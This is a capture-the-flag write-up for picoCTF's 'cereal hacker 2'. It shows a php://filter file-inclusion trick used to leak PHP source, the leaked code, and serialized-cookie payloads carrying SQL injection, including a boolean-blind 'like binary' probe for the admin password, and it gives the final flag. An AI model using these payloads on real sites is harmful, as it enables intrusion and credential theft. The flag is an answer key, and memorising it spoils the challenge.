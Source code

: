 # cereal hacker 2 - Points: 500

1. First, lets go through the website : https://2019shell1.picoctf.com/problem/62195/
2. Then, we could find out that it is as same as "cereal hacker 1", so I try the weak password again and find that I failed.
3. Now, lets try https://2019shell1.picoctf.com/problem/62195/index.php?file=admin and find there is nothing.
4. Next, I tried to grab its source code by https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=admin and decode it by base64 : 
    ```
    <?php

    require_once('cookie.php');

    if(isset($perm) && $perm->is_admin()){
    ?>

        <body>
            <div class="container">
                <div class="row">
                    <div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
                        <div class="card card-signin my-5">
                            <div class="card-body">
                                <h5 class="card-title text-center">Welcome to the admin page!</h5>
                                <h5 style="color:blue" class="text-center">Flag: Find the admin's password!</h5>
                            </div>
                        </div>
                    </div>
                </div>
            </div>

        </body>

    <?php
    }
    else{
    ?>

        <body>
            <div class="container">
                <div class="row">
                    <div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
                        <div class="card card-signin my-5">
                            <div class="card-body">
                                <h5 class="card-title text-center">You are not admin!</h5>
                                <form action="index.php" method="get">
                                    <button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
                                </form>
                            </div>
                        </div>
                    </div>
                </div>
            </div>

        </body>

    <?php
    }
    ?>
    ```
    https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=index
    ```
    <?php

    if(isset($_GET['file'])){
        $file = $_GET['file'];
    }
    else{
        header('location: index.php?file=login');
        die();
    }

    if(realpath($file)){
        die();
    }
    else{
        include('head.php');
        if(!include($file.'.php')){
            echo 'Unable to locate '.$file.'.php';
        }
        include('foot.php');
    }

    ?>

    ```
    https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=cookie
    ```
        <?php

        require_once('../sql_connect.php');

        // I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
        class permissions
        {
            public $username;
            public $password;

            function __construct($u, $p){
                $this->username = $u;
                $this->password = $p;
            }

            function is_admin(){
                global $sql_conn;
                if($sql_conn->connect_errno){
                    die('Could not connect');
                }
                //$q = 'SELECT admin FROM pico_ch2.users WHERE username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';

                if (!($prepared = $sql_conn->prepare("SELECT admin FROM pico_ch2.users WHERE username = ? AND password = ?;"))) {
                    die("SQL error");
                }

                $prepared->bind_param('ss', $this->username, $this->password);

                if (!$prepared->execute()) {
                    die("SQL error");
                }

                if (!($result = $prepared->get_result())) {
                    die("SQL error");
                }

                $r = $result->fetch_all();
                if($result->num_rows !== 1){
                    $is_admin_val = 0;
                }
                else{
                    $is_admin_val = (int)$r[0][0];
                }

                $sql_conn->close();
                return $is_admin_val;
            }
        }

        /* legacy login */
        class siteuser
        {
            public $username;
            public $password;

            function __construct($u, $p){
                $this->username = $u;
                $this->password = $p;
            }

            function is_admin(){
                global $sql_conn;
                if($sql_conn->connect_errno){
                    die('Could not connect');
                }
                $q = 'SELECT admin FROM pico_ch2.users WHERE admin = 1 AND username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';

                $result = $sql_conn->query($q);
                if($result->num_rows != 1){
                    $is_user_val = 0;
                }
                else{
                    $is_user_val = 1;
                }

                $sql_conn->close();
                return $is_user_val;
            }
        }


        if(isset($_COOKIE['user_info'])){
            try{
                $perm = unserialize(base64_decode(urldecode($_COOKIE['user_info'])));
            }
            catch(Exception $except){
                die('Deserialization error.');
            }
        }

        ?>

    ```
5. After reading these source code, we can find out an interesting different then "cereal hacker 1". The "right" object of login is "siteuser" rather than "permissions", so the payload must be : 
    ```
    O:8:"siteuser":2:{s:8:"username";s:16:"admin' and 1=1 #";s:8:"password";s:1:"1";}
    ```
    Then, encode by base64 and create a cookie named "user_info". We would get an information with flag : "Find the admin's password!", so we could know that the flag is the admin's password.
6. Now, how could we take the password? I find out a way : sql injection boolean-based blind attack. This allow us to check the password one by one, so the main problem is how we reach the goal? Here is the resource : https://sqlzoo.net/hack/16password.htm Then, I figure out a payload : 
    ```
    O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:33:"123' or password like binary 'a%";}
    ```
    The payload "123' or password like binary 'a%" means if the password isn't 123 or the password's first keyword is 'a' then it will pass. "binary" means should distinguish the difference between upper and lower. 
7. As you can see, we have to brute attack the password one by one using python. If we success and the feed back will be "Welcome". After tones of time, we could get the flag. 
8. Here is the flag : picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}
